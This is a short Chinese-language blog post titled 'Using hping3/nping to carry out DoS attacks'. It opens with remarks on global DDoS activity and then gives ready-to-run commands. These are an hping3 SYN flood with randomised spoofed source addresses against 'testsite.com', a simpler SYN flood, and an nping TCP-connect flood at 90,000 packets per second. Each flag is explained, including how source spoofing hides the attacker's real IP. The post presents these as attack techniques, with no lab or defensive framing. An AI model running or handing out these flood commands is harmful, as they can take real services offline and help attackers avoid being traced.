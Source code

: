 ```yaml
---
title: "使用hping3/nping施行DoS攻击"
categories: [ "安全" ]
tags: [ "网络" ]
draft: false
slug: "使用hping3nping施行DoS攻击-使用hping3nping施行dos攻击"
date: "2017-04-08 17:08:27"
---
```




DDoS攻击是常见的攻击方式，每小时大约发生28次。<http://www.digitalattackmap.com>提供在世界范围内的DDoS实时攻击分布图：

![][1] 

从DDoS攻击的地图上就可以看出国际形势；例如，到9月18号可以看到日本－中国的攻击；川普宣布建墙之后，可以看到墨西哥－美国的攻击。

使用hping3进行DoS攻击：

    # hping3 -c 10000 -d 120 -S -w 64 -p 80 --flood --rand-source testsite.com

  * -c：发送数据包的个数
  * -d：每个数据包的大小
  * -S：发送SYN数据包
  * -w：TCP window大小
  * -p：目标端口，你可以指定任意端口
  * –flood：尽可能快的发送数据包
  * –rand-source：使用随机的IP地址，目标机器看到一堆ip，不能定位你的实际IP；也可以使用-a或–spoof隐藏主机名

简单的SYN洪水攻击：

    # hping3 -S --flood -V testsite.com

TCP连接攻击：

    # nping --tcp-connect -rate=90000 -c 900000 -q testsite.com

关于这两个工具的更多信息：

    # man hping3
    # man nping

 [1]: /uploads/oss/2017-04-23-14916425220453.png ""